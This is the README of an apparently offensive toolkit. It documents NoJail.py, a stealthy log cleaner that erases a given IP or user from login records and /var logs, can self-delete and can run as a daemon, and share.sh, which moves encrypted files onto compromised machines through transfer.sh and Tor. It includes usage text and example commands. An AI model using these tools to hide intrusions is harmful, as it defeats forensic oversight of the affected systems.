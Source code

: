 # Freedom Fighting scripts

This repository contains scripts which may come in handy during your freedom fighting activities. It will be updated
occasionally, when I find myself in need of something I can't find online.
Everything here is distributed under the terms of the [GPL v3 License](https://www.gnu.org/licenses/gpl.html).

Contributions and pull requests are very welcome.

## Table of Contents

- [NoJail.py](#nojailpy), a python log cleaner.
- [share.sh](#sharesh), a secure file sharing script.
- [Miscellaneous](#miscellaneous) (contact and donations)

## NoJail.py

A log cleaner which removes incriminating entries in:

* `/var/run/utmp`, `/var/log/wtmp`, `/var/log/btmp` (controls the output of the `who`, `w` and `last` commands)
* `/var/log/lastlog` (controls the output of the `lastlog` command)
* `/var/**/*.log` (.log.1, .log.2.gz, etc. included)
* Any additional file or folder designated by the user

Entries are deleted based on an IP address and/or associated hostname.

Special care is taken to avoid breaking file descriptors while tampering with logs. This means logs continue to be
written to after they've been tampered with, making the cleanup a lot less conspicuous. All the work takes place in a
*tmpfs* drive and any files created are wiped securely.

**Warning:** The script has only been tested on Linux and will not be able to clean UTMP entries on other Unix flavors.

### Usage:
```
usage: nojail.py [-h] [--user USER] [--ip IP] [--hostname HOSTNAME]
                    [--verbose] [--check]
                    [log_files [log_files ...]]

   Stealthy log file cleaner.

   positional arguments:
     log_files             Specify any log files to clean in addition to
                           /var/**/*.log.

   optional arguments:
     -h, --help            show this help message and exit
     --user USER, -u USER  The username to remove from the connexion logs.
     --ip IP, -i IP        The IP address to remove from the logs.
     --hostname HOSTNAME   The hostname of the user to wipe. Defaults to the rDNS
                           of the IP.
     --verbose, -v         Print debug messages.
     --check, -c           If present, the user will be asked to confirm each
                           deletion from the logs.
     --daemonize, -d       Start in the background and delete logs when the
                           current session terminates. Implies --self-delete.
     --self-delete, -s     Automatically delete the script after its execution.
```

By default, if no arguments are given, the script will try to determine the IP address to scrub based on the
`SSH_CONNECTION` environment variable. Any entry matching the reverse DNS of that IP will be removed as well.

#### Basic example:

```
./nojail.py --user root --ip 151.80.119.32 /etc/app/logs/access.log --check
```
...will remove all entries for the user root where the IP address is 151.80.119.32 or the hostame is `manalyzer.org`.
The user will also be prompted before deleting each record because of the `--check` option. Finally, the file
`/etc/app/logs/access.log` will be processed in addition to all the default ones.

If folders are given as positional arguments (`/etc/app/logs/` for instance), the script will recursively crawl them and
clean any file with the `.log` extension (*.log.1, *.log.2.gz, etc. included).

#### Daemonizing the script

```
./nojail.py --daemonize
```
Assuming this is run from an SSH connexion, this command will delete all logs pertaining to the current user's activity
with the detected IP address and hostname right after the connexion is closed. This script will subsequently
automatically delete itself.
Please bear in mind that you won't have any opportunity to receive error messages from the application. You are encouraged
to try deleting the logs once before spawning the demon to make sure that the arguments you specified are correct.

### Sample output:
```
root@proxy:~# ./nojail.py
[ ] Cleaning logs for root (XXX.XXX.XXX.XXX - domain.com).
[*] 2 entries removed from /var/run/utmp!
[*] 4 entries removed from /var/log/wtmp!
[ ] No entries to remove from /var/log/btmp.
[*] Lastlog set to 2017-01-09 17:12:49 from pts/0 at lns-bzn-37-79-250-104-19.adsl.proxad.net
[*] 4 lines removed from /var/log/nginx/error.log!
[*] 11 lines removed from /var/log/nginx/access.log!
[*] 4 lines removed from /var/log/auth.log!
```

### Disclaimer
This script is provided without any guarantees.
Don't blame me it doesn't wipe all traces of something you shouldn't have done in the first place.

## share.sh

A portable and secure file sharing script. While freedom fighting, it is generally not possible to scp files into
compromised machines. Alternate ways to upload files are needed, but most sharing services are either too restrictive
or do not provide a way to retrieve files easily from the command line. Security considerations may also prevent
people from uploading sensitive files to cloud providers for fear that they will keep a copy of it forever.

This small and portable bash script relies on [transfer.sh](https://transfer.sh) to solve that problem. It...
* Encrypts files before uploading them (symmetric AES-256-CBC).
* Automatically uses `torify` if it is present on the system for increased anonimity.

The only dependencies needed are `openssl` and either `curl` or `wget`.

### Usage

```
root@proxy:~# ./share.sh ~/file_to_share "My_Secure_Encryption_Key!"
Success! Retrieval command: ./share.sh -r file_to_share "My_Secure_Encryption_Key!" https://transfer.sh/BQPFz/28239
root@proxy:~# ./share.sh -r file_to_share "My_Secure_Encryption_Key!" https://transfer.sh/BQPFz/28239
File retrieved successfully!
```

Additional arguments during the upload allow you to control the maximum number of downloads allowed for the file (`-m`)
and how many days transfer.sh will keep it (`-d`). The default value for both these options is 1.

**Warning**: Do not use spaces in the encryption key, or only the first word of your passphrase will be taken into
account. This is due to the way `getopts` handles arguments (I think). Pull requests are welcome if anyone is interested in
fixing this.

## Miscellaneous

### Donations
These scripts are 100% free. I do like Bitcoins though, so if you want to send some my way, here's an address you can
use: ```19wFVDUWhrjRe3rPCsokhcf1w9Stj3Sr6K```
Feel free to drop me a line if you donate to the project, so I can thank you personally!

### Contact
[![](https://manalyzer.org/static/mail.png)](mailto:justicerage *at* manalyzer.org)
[![](https://manalyzer.org/static/twitter.png)](https://twitter.com/JusticeRage)
[![](https://manalyzer.org/static/gpg.png)](https://pgp.mit.edu/pks/lookup?op=vindex&search=0x40E9F0A8F5EA8754)